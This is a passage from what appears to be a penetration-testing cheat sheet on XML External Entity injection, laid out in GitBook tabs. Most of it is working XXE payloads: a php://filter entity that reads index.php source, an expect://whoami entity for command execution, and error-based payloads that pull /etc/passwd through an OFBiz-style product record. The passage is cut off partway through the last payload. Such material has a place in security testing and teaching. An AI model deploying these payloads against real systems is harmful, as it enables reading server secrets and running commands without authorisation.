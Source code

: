 {% tab title="Source Code Exfil" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE test [
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```xml
<!-- The PHP://expect filter is not installed by default. Also for this to work, the output must be reflected. -->
<!DOCTYPE test [
<!ENTITY company SYSTEM "expect://whoami'">
]>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Error-Based

We can also **force a validation or a truncation error** on the application which may lead to a **verbose error message**.

{% tabs %}
{% tab title="Validation Error" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
<Product createdTxStamp="2021-06-04 08:15:48.983" description="Giant Widget with Wheels" internalName="Giant Widget variant explosion" isVariant="N" isVirtual="Y" largeImageUrl="/images/products/WG-9943/large.png" lastUpdatedStamp="2021-06-04 08:16:18.521" lastUpdatedTxStamp="2021-06-04 08:16:18.258" primaryProductCategoryId="202" productId="XXE-0001" productName="Giant Widget with variant explosion" productTypeId="FINISHED_GOOD" productWeight="22.000000" quantityIncluded="10.000000" smallImageUrl="/images/products/WG-9943/small.png" virtualVariantMethodEnum="VV_VARIANTTREE">
<!-- Passing a file in a field that expects a timestamp -->
<createdStamp>&xxe;</createdStamp>
<longDescription>XXE</longDescription>
</Product>
</entity-engine-xml>
```
{% endcode %}
{% endtab %}

{% tab title="Truncation Error" %}
{% code overflow="wrap" %}
```xml
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<entity-engine-xml>
```